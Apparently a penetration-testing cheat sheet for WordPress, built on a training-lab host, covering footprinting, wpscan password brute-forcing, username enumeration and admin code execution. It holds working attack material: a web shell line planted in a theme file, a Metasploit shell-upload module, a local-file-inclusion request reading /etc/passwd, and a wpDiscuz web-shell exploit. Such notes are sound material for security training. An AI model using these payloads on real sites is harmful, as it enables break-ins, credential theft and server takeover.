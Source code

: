 # WordPress

## **Introduction**

> * WordPress is extremely prevalent on the internet and presents a vast attack surface
> * Getting access to an administrator is usually sufficient to obtain code execution on the server.
> * Editors and authors might have access to certain vulnerable plugins, which normal users don’t.

***

## **Wordpress User Roles**

| User Role     | Description                                                                                                                 |
| ------------- | --------------------------------------------------------------------------------------------------------------------------- |
| Administrator | Full Privileges - This user role is an interesting target due to his capability of managing plugins                         |
| Editor        | Can publish and manage any user's posts - This user role is an interesting target due to his capability of managing plugins |
| Author        | Can publish and manage their posts                                                                                          |
| Contributor   | Can write and manage their own post, but he cannot publish them                                                             |
| Subscriber    | Can view posts and manage/modify their profile                                                                              |

***

## **WordPress Discovery/Footprinting**

| Command                                                        | Description                                                                               |
| -------------------------------------------------------------- | ----------------------------------------------------------------------------------------- |
| Browse to `http://blog.inlanefreight.local/robots.txt`         | Check if `robots.txt` contains any wp-entry (e.g. `wp-admin`, `wp-content`, `wp-sitemap`) |
| Browse to `http://blog.inlanefreight.local/wp-admin`           | Check if `wp-admin` exists                                                                |
| Browse to `http://blog.inlanefreight.local/wp-content`         | Check if `wp-content` exists                                                              |
| Browse to `http://blog.inlanefreight.local/wp-content/plugins` | Enumerate and look for vulnerable plugins                                                 |
| Browse to `http://blog.inlanefreight.local/wp-content/themes`  | Enumerate and look for vulnerable themes                                                  |
| `curl -s http://blog.inlanefreight.local \| grep WordPress`    | Check webpage source                                                                      |
| `curl -s http://blog.inlanefreight.local \| grep themes`       | Check webpage source                                                                      |
| `curl -s http://blog.inlanefreight.local \| grep plugins`      | Check webpage source                                                                      |

***

## **WpScan Basic Commands**

| Command                                                                                                                       | Description                                                 |
| ----------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `wpscan --url test.example --api-token TOKENVALUE --output wpscan-ir-host`                                                    | Run wpscan using an api token                               |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>` | Run wpscan and perform a password attack against the target |

***

## **Wordpress User Enumeration and Login Bruteforcing**

* **Login Form - Usernames Enumeration**: in some versions of wordpress it's possible to enumerate usernames due to wordpress error messages giving too many information: whenever a username is right, the web application may show a message such as `"the password is not valid"`, meaning that the username is valid.
* **Login Form - Password Bruteforcing**: wpscan can be used to bruteforce a valid user's password:\
  `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local`

***

## **Admin User - Remote Code Execution**

> An aministrator account may edit PHP code in order to gain RCE

**The steps are the following:**

* **Semi-automatically, using `msfconsole`:** `use exploit/unix/webapp/wp_admin_shell_upload`
* **Manually, by modifying a theme:**
  1. Login as administrator → Navigate to: appearance → side panel → theme editor → select a theme
  2. Add the following to the theme: `system($_GET[0]);`
  3. Use the following URL to gain RCE: `http://example.test/wp-content/themes/THEMENAME/FILEPHPNAME.PHP?0=id`

***

## **WordPress Known Vulnerable Plugins**

1. **`Mail-Masta` allows LFI by using the following PoC:** `curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`
2. `wpDiscuz` allows RCE by using the following PoC:
   * [ExploitDB](https://www.exploit-db.com/exploits/49967): `python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1`
   * if it fails, use `cURL` to execute commands using the uploaded web shell: `curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id`
